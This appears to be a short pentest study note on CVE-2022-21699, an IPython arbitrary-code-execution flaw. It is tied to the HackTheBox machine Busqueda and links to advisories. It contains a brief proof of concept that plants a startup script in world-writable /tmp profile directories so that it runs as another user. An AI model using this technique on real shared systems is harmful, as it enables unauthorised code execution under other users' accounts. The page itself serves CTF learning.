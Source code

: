 ```yaml
---
description: iPython
---
```


# CVE-2022-21699

<mark style="color:purple;">IPython (Interactive Python) is a command shell for interactive computing in multiple programming languages, originally developed for the Python programming language. Affected versions are subject to an arbitrary code execution vulnerability achieved by not properly managing cross user temporary files. This vulnerability allows one user to run code as another on the same machine. All users are advised to upgrade.</mark>

<mark style="color:purple;">Shows on:</mark>

* <mark style="color:green;">HTB Busqueda</mark>

<mark style="color:purple;">**POC:**</mark>

```
# -m: file mode (rwx)
mkdir -m 777 /tmp/profile_default
mkdir -m 777 /tmp/profile_default/startup
echo 'print("jarana")' > /tmp/profile_default/startup/exploit.py
```

<mark style="color:purple;">**Resources:**</mark>

{% embed url="https://ubuntu.com/security/CVE-2022-21699" %}

{% embed url="https://vuldb.com/?id.191267=" %}

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2022-21699" %}

{% embed url="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-21699" %}
